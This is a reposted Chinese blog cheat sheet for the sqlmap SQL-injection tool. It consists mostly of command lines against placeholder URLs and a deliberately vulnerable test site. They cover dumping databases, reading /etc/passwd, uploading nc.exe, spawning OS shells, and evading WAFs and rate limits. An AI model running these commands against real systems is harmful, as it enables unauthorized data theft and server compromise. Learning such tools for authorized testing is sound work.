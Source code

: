```yaml
---
title: "[转]【tools】SQLMAP注入工具手册"
description: ""
categorys: 
tags: [sql]
---
```


转自:<https://sh4dow.lofter.com/post/395c80_121497d>

# 基本的注入步骤：

    sqlmap -u "https://url/news?id=1" --dbs           #查询所有数据库
    sqlmap -u "https://url/news?id=1" --current-db          #获取当前数据库名
    sqlmap -u "https://url/news?id=1" --current-user        #获取当前用户名
    sqlmap -u "https://url/news?id=1" -D "db_name" --tables    #获取表名
    sqlmap -u "https://url/news?id=1" -D "db_name" -T "table_name"  --columns #获取列名
    sqlmap -u "https://url/news?id=1"  -D "db_name" -T "table_name" -C "column_name" --dump  #获取字段内容

注入请求选项使用：

    sqlmap -u "https://url/news?id=1"               #get注入
    sqlmap -u "https://url/news" --date "id=1"        #post注入
    sqlmap -u "https://url/news" --cookie "id=1"      #cookie注入

# 结合BurpSuite拦截的POST表单注入：

浏览器打开目标地址 https://testasp.vulnweb.com/Login.asp

配置burp代理(127.0.0.1:8080)以拦截请求

点击login表单的submit按钮

如下图，这时候Burp会拦截到了我们的登录POST请求

![](/assets/imgs/2015-08-18-01.jpg)

5. 把这个post请求复制为txt, 我这命名为search-test.txt 然后把它放至sqlmap目录下

6. 运行sqlmap并使用如下命令：./sqlmap.py -r search-test.txt -p tfUPass，这里参数 -r 是让sqlmap加载我们的post请求rsearch-test.txt，而-p 大家应该比较熟悉，指定注入用的参数。

# POST登陆框注入：

    sqlmap -u https://testasp.vulnweb.com/Login.asp  --forms     #除了截包还可以用forms选项进行自动搜索表单
    sqlmap -u https://testasp.vulnweb.com/Login.asp  --date "tfUName=123$tfUPass=456" #POST的表单参数注入

# 应对伪静态指定注入点：

    sqlmap -u "https://url/news/1*.html" --dbs       #在*插入SQL注入语句查询数据库
    sqlmap -u "https://url/news/1*/html" --dbs       #在*插入SQL注入语句查询数据库


# 指定系统及数据库：

    sqlmap -u "https://url/news?id=1" --dbms PostgreSQL        #指定数据库
    sqlmap -u "https://url/news?id=1"  --os linux           #指定数据库服务器系统

# 命令执行及交互shell：

    sqlmap -u "https://url/news?id=1" --os-cmd=ipconfig     #执行ipconfig系统命令
    sqlmap -u "https://url/news?id=1" --os-shell            #写交互shell
    sqlmap -u "https://url/news?id=1"  --sql-query "show databases;"    #执行SQL语句          
    sqlmap -u "https://url/news?id=1"  --sql-shell            #返回SQLshell

# 文件操作：

    sqlmap -u "https://url/news?id=1"  --file-read  /etc/passwd    #读取系统文件
    sqlmap -u "https://url/news?id=1"  --file-write "C:/WINDOWS/Temp/nc.exe" --file-dest "/software/nc.exe" 

查看payload及注入语句：

    sqlmap -u "https://url/news?id=1"  -v 3   

#-v 0、只显示python错误以及严重的信息；

1、同时显示基本信息和警告信息；（默认）

2、同时显示debug信息；

3、同时显示注入的payload；

4、同时显示HTTP请求；

5、同时显示HTTP响应头；

6、同时显示HTTP响应页面。

    sqlmap -u "https://url/news?id=1"  --proxy "https://127.0.0.1:8080" #配置burp代理(127.0.0.1:8080)以拦截请求注入语句

# 测试等级对HTTP头注入利用：

    sqlmap -u "https://url/news?id=1" --level 3    #--level参数来进行不同全面性的测试，默认为1，不同的参数影响了使用哪些payload，2时会进行cookie注入检测，3时会进行useragent检测

# 风险等级：

--risk   #共有三个风险等级，默认是1会测试大部分的测试语句，2会增加基于事件的测试语句，3会增加OR语句的SQL注入测试。

# 盲注添加payload语句前缀与后缀绕过WAF：

    sqlmap -u "https://url/news?id=1" -p id --suffix=" -- " --prefix=")"    #相当于https://url/news?id=1）order by 10 -- 

# 编码绕过WAF：

    sqlmap -u "https://url/news?id=1" -v 3 --dbs --tamper "space2morehash.py"  #用tamper选择编码表绕过WAF注入，更多见ramper目录

# 伪装http头绕过工具识别：

    sqlmap -u "https://url/news?id=1" --referer "https://www.baidu.com"    #从百度域超链接访问的
    sqlmap -u "https://url/news?id=1" --user-agent="Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)" #设置浏览器信息
    sqlmap -u "https://url/news?id=1"  --mobile                 #伪装成智能手机，设定一个手机的User-Agent来模仿手机登陆

# 绕过HTTP请求限制：

    sqlmap -u "https://url/news?id=1"  --delay 2    #延迟时间为2秒，绕过请求频繁被防火墙拦截
    sqlmap -u "https://url/news?id=1"  --safe-url       #每隔一段时间去访问一个正常的页面，绕过多次错误访问后屏蔽请求
    sqlmap -u "https://url/news?id=1"  --safe-freq    #每次测试请求之后都再访问一遍安全连接，绕过多次错误访问后屏蔽请求

# 绕过URL参数值编码：

    sqlmap -u "https://url/news?id=1" --skip-urlencode   #关闭url编码，使web服务器接受url值

# 从文本中获取多个目标检测：

www.target1.com/vuln1.php?q=foobar

www.target2.com/vuln2.asp?id=1

www.target3.com/vuln3/id/1*               

    sqlmap -m  url.txt                       #将url格式保存到文件，sqlmap会逐一检测

# 启发式判断注入：

    sqlmap -u "https://url/news?id=1"  --batch --smart  #默认智能判断注入
